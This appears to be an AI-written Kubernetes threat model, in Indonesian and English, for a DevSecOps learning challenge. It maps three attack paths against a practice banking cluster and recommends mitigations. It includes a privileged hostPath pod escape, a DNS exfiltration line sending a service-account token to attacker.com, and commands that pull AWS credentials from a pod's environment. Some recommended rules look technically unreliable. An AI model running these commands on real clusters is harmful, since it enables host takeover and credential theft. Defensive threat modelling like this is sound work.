

# SecureBank K8s Cluster — AI Threat Analysis

> **Tanggal:** 2026-07-21  
> **Versi:** 1.0  
> **Metodologi:** MITRE ATT&CK + CVSS v3.1  
> **Scope:** K8s cluster (Fase 3 — post Day 43 security hardening)  
> **AI Model:** glm-5.2 (opencode-go)  
> **Analyst:** AI Threat Modeler (Day 44 challenge)

---

## 1. Cluster Architecture

### Namespace Topology



### Security Layers (Defense in Depth)

| Layer | Tool | Day | Function |
|-------|------|-----|----------|
| **Admission Control** | OPA Gatekeeper | 34-36 | Block pods without resource limits |
| **Image Security** | Distroless + Cosign | 18-19 | No shell, signed images, 7.97MB |
| **Network Isolation** | NetworkPolicy | 37 | Default deny + whitelist kube-system ingress |
| **RBAC** | ServiceAccount + Role | 38 | Least privilege: get configmap only |
| **Runtime Detection** | Falco + Falcosidekick | 39-42 | 29 rules, webhook alerting |
| **Secret Management** | External Secrets Operator | 43 | AWS Secrets Manager sync, no secrets in git |

---

## 2. Attack Path Analysis

### Attack Path 1: Container Escape via Privileged Pod

**MITRE ATT&CK:** T1611 — Escape to Host  
**CVSS v3.1 Score:** 9.8 (Critical)  
**Vector:** `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H`

#### Prasyarat (What Attacker Needs)

1. **Initial access** ke cluster (compromised developer workstation, CI/CD pipeline, atau supply chain attack)
2. **Pod creation permission** di namespace manapun (RBAC abuse atau stolen credentials dengan `pods/create` verb)
3. **Privileged container creation** (bypass Gatekeeper admission control)

#### Langkah Eksploitasi

```yaml
# Attacker mencoba create privileged pod
apiVersion: v1
kind: Pod
metadata:
  name: attacker-pod
  namespace: default
spec:
  containers:
    - name: escape
      image: ubuntu:latest
      securityContext:
        privileged: true  # ← Attacker wants this
        runAsUser: 0
      volumeMounts:
        - name: host-root
          mountPath: /host
  volumes:
    - name: host-root
      hostPath:
        path: /
```

**Exploit steps:**
1. Attacker create privileged pod dengan `hostPath: /` mount
2. Pod dapat akses ke host filesystem (termasuk `/etc/shadow`, `/root/.ssh/`)
3. Attacker exec ke pod: `kubectl exec -it attacker-pod -- chroot /host bash`
4. Attacker sekarang di host node, bukan di container
5. Lateral movement ke node lain atau akses cluster-wide resources

#### Mitigasi Existing (Day 31-43)

| Defense | Day | Effectiveness |
|---------|-----|---------------|
| **Gatekeeper admission control** | 34-36 | ✅ **BLOCK** — Pod tanpa resource limits ditolak. Attacker harus add `resources` (tapi Gatekeeper tetap block privileged) |
| **SecurityContext hardening** | 33 | ✅ **BLOCK** — Deployment template sudah set `allowPrivilegeEscalation: false`, `runAsNonRoot: true` |
| **NetworkPolicy default-deny** | 37 | ✅ **LIMIT** — Kalau attacker berhasil escape, network isolation mencegah lateral movement |
| **Falco runtime detection** | 39-41 | ✅ **DETECT** — Rule "Detect release_agent File Container Escapes" + "Linux Kernel Module Injection Detected" akan trigger alert |

#### Mitigasi Tambahan (Recommendations)

1. **Pod Security Standards (PSS)** — Enable `restricted` profile di namespace level:
   ```yaml
   apiVersion: v1
   kind: Namespace
   metadata:
     name: securebank
     labels:
       pod-security.kubernetes.io/enforce: restricted
       pod-security.kubernetes.io/audit: restricted
       pod-security.kubernetes.io/warn: restricted
   ```

2. **Admission webhook untuk privileged containers** — Gatekeeper policy tambahan:
   ```yaml
   - rule: Privileged container denied
     condition: >
       input.review.object.spec.containers[_].securityContext.privileged == true
   ```

3. **Audit log monitoring** — Enable K8s audit logs untuk detect `pods/create` dengan `privileged: true`

#### Risk Assessment

| Faktor | Score | Justification |
|--------|-------|---------------|
| **Attack Complexity** | Low | Attacker hanya perlu `pods/create` permission |
| **Privileges Required** | None (initial) | Stolen credentials atau compromised CI/CD |
| **User Interaction** | None | Fully automated exploit |
| **Impact** | Critical | Full host access, cluster-wide compromise |
| **Mitigation Effectiveness** | High | Gatekeeper + SecurityContext block at admission |

**Overall Risk:** MEDIUM (mitigations effective, tapi initial access masih possible)

---

### Attack Path 2: Lateral Movement via NetworkPolicy Bypass

**MITRE ATT&CK:** T1021.004 — Remote Services: SSH  
**CVSS v3.1 Score:** 7.5 (High)  
**Vector:** `CVSS:3.1/AV:N/AC:H/PR:L/UI:N/S:U/C:H/I:H/A:H`

#### Prasyarat (What Attacker Needs)

1. **Initial access** ke satu pod di namespace `securebank` (RCE via app vulnerability, supply chain attack)
2. **Shell access** di pod (tapi distroless tidak punya shell — ini mitigasi utama)
3. **Network knowledge** — attacker tahu IP/service name pod lain

#### Langkah Eksploitasi

**Scenario:** Attacker compromise `securebank-api` pod (misal via vulnerable dependency)

```bash
# Attacker coba lateral movement dari securebank-api pod
# Target: ESO pods di namespace external-secrets (steal AWS credentials)

# Step 1: Reconnaissance
nslookup external-secrets-webhook.external-secrets.svc.cluster.local
# → 10.43.202.51

# Step 2: Attempt connection
curl -k https://10.43.202.51:443/
# → Connection refused (NetworkPolicy blocks)

# Step 3: Try DNS tunneling (bypass NetworkPolicy)
# Attacker encode data in DNS queries
nslookup $(cat /var/run/secrets/kubernetes.io/serviceaccount/token).attacker.com
# → DNS egress allowed, tapi data exfiltration via DNS lambat dan detectable
```

**Exploit steps:**
1. Attacker di `securebank-api` pod coba reach `external-secrets` namespace
2. NetworkPolicy `default-deny-all` block semua egress kecuali DNS (port 53)
3. Attacker coba DNS tunneling (encode data di DNS queries)
4. Atau attacker coba exploit DNS service (CoreDNS vulnerability)
5. Atau attacker coba compromise pod di namespace yang sama (tapi hanya ada `securebank-api` pods)

#### Mitigasi Existing (Day 31-43)

| Defense | Day | Effectiveness |
|---------|-----|---------------|
| **NetworkPolicy default-deny** | 37 | ✅ **BLOCK** — Semua egress blocked kecuali DNS (port 53) |
| **NetworkPolicy allow-dns-egress** | 37 | ⚠️ **LIMIT** — DNS allowed, tapi DNS tunneling detectable via Falco |
| **Distroless image** | 18 | ✅ **BLOCK** — Tidak ada shell, attacker tidak bisa exec `curl`, `nslookup`, `wget` |
| **Falco network tool detection** | 40 | ✅ **DETECT** — Rule "Network tool in SecureBank container" trigger kalau `curl`/`wget`/`dig` dijalankan |
| **RBAC least privilege** | 38 | ✅ **LIMIT** — ServiceAccount hanya bisa `get configmap`, tidak bisa `get secrets` atau `list pods` |

#### Mitigasi Tambahan (Recommendations)

1. **DNS logging** — Enable CoreDNS query logging untuk detect DNS tunneling:
   ```yaml
   apiVersion: v1
   kind: ConfigMap
   metadata:
     name: coredns
     namespace: kube-system
   data:
     Corefile: |
       .:53 {
           log  # ← Enable query logging
           errors
           health
           kubernetes cluster.local in-addr.arpa ip6.arpa {
              pods insecure
              fallthrough in-addr.arpa ip6.arpa
           }
           forward . /etc/resolv.conf
           cache 30
           loop
           reload
           loadbalance
       }
   ```

2. **Egress to specific DNS server only** — Restrict DNS egress ke CoreDNS IP saja:
   ```yaml
   egress:
     - to:
         - ipBlock:
             cidr: 10.43.0.10/32  # CoreDNS ClusterIP
       ports:
         - protocol: UDP
           port: 53
   ```

3. **Falco DNS tunneling detection** — Custom rule untuk detect high-frequency DNS queries:
   ```yaml
   - rule: Potential DNS tunneling
     condition: >
       evt.type=sendto and
       fd.l4proto=udp and
       fd.sport=53 and
       container and
       container.image.repository contains "securebank"
     priority: WARNING
   ```

#### Risk Assessment

| Faktor | Score | Justification |
|--------|-------|---------------|
| **Attack Complexity** | High | Butuh shell access (distroless block) + network knowledge |
| **Privileges Required** | Low | Initial pod access cukup |
| **User Interaction** | None | Fully automated |
| **Impact** | High | Akses ke ESO = steal AWS credentials = secret exfiltration |
| **Mitigation Effectiveness** | Very High | NetworkPolicy + distroless + Falco = triple layer |

**Overall Risk:** LOW (multiple effective mitigations)

---

### Attack Path 3: Secret Exfiltration via ESO Compromise

**MITRE ATT&CK:** T1552.001 — Unsecured Credentials: Credentials In Files  
**CVSS v3.1 Score:** 8.6 (High)  
**Vector:** `CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:N/A:N`

#### Prasyarat (What Attacker Needs)

1. **Access ke `external-secrets` namespace** (lateral movement dari namespace lain, atau compromised ESO pod)
2. **Read permission** untuk K8s Secrets di namespace `securebank` (RBAC abuse)
3. **Atau:** Compromise ESO controller pod (steal AWS credentials dari pod environment)

#### Langkah Eksploitasi

**Scenario A: Attacker di `external-secrets` namespace, coba read `securebank-jwt` secret**

```bash
# Attacker compromise ESO pod (misal via vulnerable dependency)
# Coba read K8s Secret di namespace securebank

kubectl get secret securebank-jwt -n securebank -o jsonpath='{.data.JWT_SECRET}' | base64 -d
# → Error: secrets "securebank-jwt" is forbidden: User "system:serviceaccount:external-secrets:external-secrets" cannot get resource "secrets" in API group "" in the namespace "securebank"
```

**Scenario B: Attacker steal AWS credentials dari ESO pod environment**

```bash
# Attacker exec ke ESO pod
kubectl exec -it external-secrets-678fb7bf9b-8bw77 -n external-secrets -- env | grep AWS
# → AWS_ACCESS_KEY_ID=AKIAZ6PE...
# → AWS_SECRET_ACCESS_KEY=hehAoIu6...

# Attacker sekarang punya AWS credentials
# Bisa akses AWS Secrets Manager langsung (bypass K8s)
aws secretsmanager get-secret-value --secret-id securebank/jwt-secret --region ap-southeast-1
# → JWT_SECRET value
```

**Exploit steps:**
1. Attacker compromise ESO pod (RCE via vulnerable dependency atau supply chain attack)
2. Attacker extract AWS credentials dari pod environment (stored di K8s Secret `aws-credentials`, mounted sebagai env)
3. Attacker gunakan AWS credentials untuk akses AWS Secrets Manager langsung (bypass K8s RBAC)
4. Attacker steal semua secrets di AWS Secrets Manager (tidak hanya `securebank/jwt-secret`)
5. Attacker bisa rotate secrets di AWS, cause denial of service, atau exfiltrate data

#### Mitigasi Existing (Day 31-43)

| Defense | Day | Effectiveness |
|---------|-----|---------------|
| **ESO di namespace terpisah** | 43 | ✅ **ISOLATE** — ESO pods di `external-secrets` namespace, bukan `securebank`. Attacker di `securebank` tidak bisa langsung access ESO |
| **NetworkPolicy default-deny** | 37 | ✅ **BLOCK** — NetworkPolicy di `securebank` block egress ke `external-secrets` namespace |
| **RBAC least privilege** | 38 | ✅ **LIMIT** — `securebank-api` ServiceAccount tidak bisa `get secrets` di namespace manapun |
| **Falco runtime detection** | 39-41 | ✅ **DETECT** — Kalau attacker exec shell di ESO pod, Falco detect (tapi ESO pods bukan distroless, jadi shell available) |
| **AWS credentials di K8s Secret** | 43 | ⚠️ **LIMIT** — AWS credentials stored di K8s Secret (bukan IRSA). Kalau ESO pod compromised, credentials exposed |

#### Mitigasi Tambahan (Recommendations)

1. **IRSA (IAM Roles for Service Accounts)** — Gunakan IRSA instead of AWS credentials di K8s Secret:
   ```yaml
   apiVersion: v1
   kind: ServiceAccount
   metadata:
     name: external-secrets
     namespace: external-secrets
     annotations:
       eks.amazonaws.com/role-arn: arn:aws:iam::123456789012:role/external-secrets-role
   ```
   **Note:** IRSA hanya available di EKS, bukan k3d. Untuk production di EKS, migrate ke IRSA.

2. **ESO pod SecurityContext hardening** — Apply same hardening as `securebank-api`:
   ```yaml
   securityContext:
     runAsNonRoot: true
     runAsUser: 65532
     allowPrivilegeEscalation: false
     readOnlyRootFilesystem: true
     capabilities:
       drop: ["ALL"]
   ```

3. **AWS Secrets Manager resource-based policy** — Restrict access ke specific IP/VPC:
   ```json
   {
     "Version": "2012-10-17",
     "Statement": [
       {
         "Effect": "Allow",
         "Principal": {"AWS": "arn:aws:iam::123456789012:role/external-secrets-role"},
         "Action": "secretsmanager:GetSecretValue",
         "Resource": "arn:aws:secretsmanager:ap-southeast-1:123456789012:secret:securebank/*",
         "Condition": {
           "IpAddress": {"aws:SourceIp": "10.42.0.0/16"}
         }
       }
     ]
   }
   ```

4. **Falco custom rule untuk ESO namespace** — Detect shell execution di ESO pods:
   ```yaml
   - rule: Shell spawned in ESO container
     condition: >
       spawned_process and
       container and
       container.image.repository contains "external-secrets" and
       proc.name in (bash, sh, ash, zsh)
     priority: CRITICAL
   ```

#### Risk Assessment

| Faktor | Score | Justification |
|--------|-------|---------------|
| **Attack Complexity** | Medium | Butuh compromise ESO pod (vulnerable dependency atau supply chain) |
| **Privileges Required** | Low | Initial ESO pod access cukup |
| **User Interaction** | None | Fully automated |
| **Impact** | Critical | AWS credentials = access ke semua secrets di AWS Secrets Manager |
| **Mitigation Effectiveness** | Medium | NetworkPolicy + RBAC limit, tapi AWS credentials di K8s Secret = single point of failure |

**Overall Risk:** MEDIUM (mitigations partial, AWS credentials exposure = critical gap)

---

## 3. Threat Model Comparison: Fase 1 vs Fase 3

| Aspek | Fase 1 (App-Level) | Fase 3 (Cluster-Level) |
|-------|-------------------|------------------------|
| **Scope** | SecureBank API (single app) | K8s cluster (multiple namespaces, pods, services) |
| **Attack Surface** | HTTP endpoints, JWT, in-memory data | Pods, containers, network, RBAC, secrets |
| **Threat Actors** | External attackers, malicious users | Compromised pods, insider threats, supply chain |
| **Attack Vectors** | SQL injection, XSS, JWT bypass, IDOR | Container escape, lateral movement, RBAC abuse, secret exfiltration |
| **Mitigations** | Input validation, JWT auth, rate limiting, security headers | NetworkPolicy, RBAC, Gatekeeper, Falco, ESO, distroless |
| **Detection** | Application logs, WAF | Falco runtime detection, K8s audit logs |
| **Impact** | Data breach, account takeover | Cluster compromise, host escape, secret exfiltration |

### Defense in Depth Validation

Setiap attack path di Fase 3 punya **multiple mitigations** dari hari-hari sebelumnya:

| Attack Path | Mitigations |
|-------------|-------------|
| **Container Escape** | Gatekeeper (admission) + SecurityContext (runtime) + NetworkPolicy (network) + Falco (detection) |
| **Lateral Movement** | NetworkPolicy (network) + Distroless (runtime) + Falco (detection) + RBAC (access) |
| **Secret Exfiltration** | ESO namespace isolation (network) + RBAC (access) + NetworkPolicy (network) + Falco (detection) |

**Conclusion:** Defense in depth bekerja — tidak ada single point of failure. Setiap layer mitigasi mengurangi risk, dan multiple layers membuat attack sangat sulit.

---

## 4. Recommendations Summary

### High Priority (Immediate)

1. **Pod Security Standards (PSS)** — Enable `restricted` profile di semua namespaces (Attack Path 1)
2. **ESO pod SecurityContext hardening** — Apply same hardening as `securebank-api` (Attack Path 3)
3. **Falco custom rule untuk ESO namespace** — Detect shell execution di ESO pods (Attack Path 3)

### Medium Priority (Next Sprint)

4. **DNS logging** — Enable CoreDNS query logging untuk detect DNS tunneling (Attack Path 2)
5. **Egress to specific DNS server** — Restrict DNS egress ke CoreDNS IP saja (Attack Path 2)
6. **AWS Secrets Manager resource-based policy** — Restrict access ke specific VPC/IP (Attack Path 3)

### Low Priority (Future)

7. **IRSA migration** — Migrate dari AWS credentials di K8s Secret ke IRSA (Attack Path 3, EKS only)
8. **K8s audit logs** — Enable audit logs untuk detect `pods/create` dengan `privileged: true` (Attack Path 1)
9. **Falco DNS tunneling detection** — Custom rule untuk detect high-frequency DNS queries (Attack Path 2)

---

## 5. Conclusion

### Security Posture: STRONG

Cluster security posture **STRONG** dengan multiple defense layers:
- **Admission control** (Gatekeeper) block non-compliant pods
- **Network isolation** (NetworkPolicy) prevent lateral movement
- **Runtime detection** (Falco) detect suspicious activity
- **Secret management** (ESO) decouple secrets from git
- **Image security** (distroless) reduce attack surface

### Key Findings

1. **Container escape** — Mitigated by Gatekeeper + SecurityContext, tapi Pod Security Standards akan add extra layer
2. **Lateral movement** — Effectively blocked by NetworkPolicy + distroless, DNS tunneling = only remaining vector
3. **Secret exfiltration** — Partially mitigated, AWS credentials di K8s Secret = critical gap (IRSA recommended untuk production)

### Next Steps

1. Implement high-priority recommendations (PSS, ESO hardening, Falco rules)
2. Plan IRSA migration untuk production deployment
3. Continuous monitoring via Falco + K8s audit logs
4. Regular threat model updates seiring cluster evolution

---

## Referensi

- [MITRE ATT&CK Framework](https://attack.mitre.org/)
- [CVSS v3.1 Specification](https://www.first.org/cvss/v3.1/specification-document)
- [Kubernetes Security Best Practices](https://kubernetes.io/docs/concepts/security/)
- [Pod Security Standards](https://kubernetes.io/docs/concepts/security/pod-security-standards/)
- [Network Policies](https://kubernetes.io/docs/concepts/services-networking/network-policies/)
- [External Secrets Operator](https://external-secrets.io/)
- [Falco Runtime Security](https://falco.org/)

---

**Analyst:** glm-5.2 (opencode-go)  
**Date:** 2026-07-21  
**Challenge:** 60 Days DevSecOps Mastery — Day 44
